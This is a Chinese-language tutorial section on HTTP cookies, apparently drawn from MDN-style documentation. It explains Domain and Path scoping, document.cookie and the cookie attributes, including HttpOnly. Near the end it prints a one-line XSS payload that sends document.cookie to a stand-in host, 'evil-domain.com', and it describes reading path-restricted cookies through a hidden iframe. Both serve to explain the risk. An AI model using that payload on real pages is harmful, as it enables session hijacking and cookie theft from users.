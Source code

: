 cookie 在性质上是绑定在特定的域名之下的。当设定了一个 cookie 以后，在给创建它的域名发送请求时，都会包含这个 cookie。这个限制确保了储存在 cookie 中的信息只能让批准的接受者访问，而无法被其他域访问。

`Domain` 和 `Path` 标识定义了 Cookie 的作用域：即 Cookie 应该发送给哪些 URL。

`Domain` 标识指定了哪些主机可以接受 Cookie。如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了`Domain`，则一般包含子域名。

例如，如果设置 `Domain=mozilla.org`，则 Cookie 也包含在子域名中（如`developer.mozilla.org`）。

`Path` 标识指定了主机下的哪些路径可以接受 Cookie（该 URL 路径必须存在于请求 URL 中）。以字符 `%x2F` ("`/`") 作为路径分隔符，子路径也会被匹配。

例如，设置 `Path=/docs`，则以下地址都会匹配：

- `/docs`
- `/docs/Web/`
- `/docs/Web/HTTP`

##### 1.1.5.Document.cookies

浏览器可以设置不接受 Cookie，也可以设置不向服务器发送 Cookie。 `window.navigator.cookieEnabled` 属性返回一个布尔值，表示浏览器是否打开 Cookie 功能。

`window.navigator.cookieEnabled // true`

通过 `Document.cookie` 属性可创建新的 Cookie，也可通过该属性访问非 HttpOnly 标记的 Cookie。

`document.cookie = newCookie;`

newCookie 是一个键值对形式的字符串(`xx=xxx; zz=zzz`)。使用 `document.cookie` 可以获取当前页面可用的所有 cookie 的字符串；用来设置值时，可以设置为一个新的 cookie 字符串，这个新的 cookie 字符串会被解释并添加到现有的 cookie 集合中。设置 `document.cookie` 并不会覆盖 cookie，除非设置 cookie 的名称已经存在。

- 以下可选的 cookie 属性值可以跟在键值对后，用来具体化对 cookie 的设定/更新，使用分号以作分隔：
  - `;path=path` (例如 '/', '/mydir') 如果没有定义，默认为当前文档位置的路径。用于限制指定 Cookie 的发送范围的文件目录。不过另有办法可避开这项限制，看来对其作为安全机制的效果不能抱有期待。
  - `;domain=domain` (例如 'example.com'， 'subdomain.example.com') 如果没有定义，默认为当前文档位置的路径的域名部分。与早期规范相反的是，在域名前面加 `.` 符将会被忽视，因为浏览器也许会拒绝设置这样的 cookie。如果指定了一个域，那么子域也包含在内。
  - `;max-age=max-age-in-seconds` (例如一年为 `60*60*24*365`)如果同时指定了 `Expires` 和 `Max-Age`，那么 `Max-Age` 的值将优先生效。
  - `;expires=date-in-GMTString-format` 指定浏览器可发送 Cookie 的有效期。当省略 expires 属性时，Cookie 仅在浏览器关闭之前有效。另外，一旦 Cookie 从服务器端发送至客户端，服务器端就不存在可以显式删除 Cookie 的方法。但可通过覆盖已过期的 Cookie，实现对客户端 Cookie 的实质性删除操作。(该选项的值是一个 `Wdy, DD-Mon-YYYY HH:MM:SS GMT` 日期格式的值，参见 `Date.toUTCString()`)
  - `;secure` 用于限制 Web 页面仅在 HTTPS 安全连接时，才可以发送 Cookie。
  - `;HttpOnly` 是 Cookie 的扩展功能，它使 JavaScript 脚本(主要是 `Document.cookie` 属性、`XMLHttpRequest` 对象和 Request API 都拿不到该属性)无法获得 Cookie。其主要目的为防止跨站脚本攻击（XSS）对 Cookie 的信息窃取。
- cookie 的值字符串可以用 `encodeURIComponent()` 来保证它不包含任何逗号、分号或空格(cookie 值中禁止使用这些值)。

路径限制并不能阻止从其他路径访问 cookie。 使用简单的 DOM 即可轻易地绕过限制(比如创建一个指向限制路径的，隐藏的 iframe，然后访问其 `contentDocument.cookie` 属性)。保护 cookie 不被非法访问的唯一方法是将它放在另一个域名/子域名之下，利用同源策略（注意，这里不要求协议相同）保护其不被读取。

Web 应用程序通常使用 cookies 来标识用户身份及他们的登录会话。因此通过窃听这些 cookie，就可以劫持已登录用户的会话。窃听的 cookie 的常见方法包括社会工程和 XSS 攻击 -

`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`

`HttpOnly` 属性可以阻止通过 javascript 访问 cookie，从而一定程度上遏制这类攻击。

注意，`document.cookie` 一次只能写入一个 Cookie，而且写入并不是覆盖，而是添加。

```js
document.cookie = "test1=hello";
document.cookie = "test2=world";
document.cookie;
// test1=hello;test2=world
```
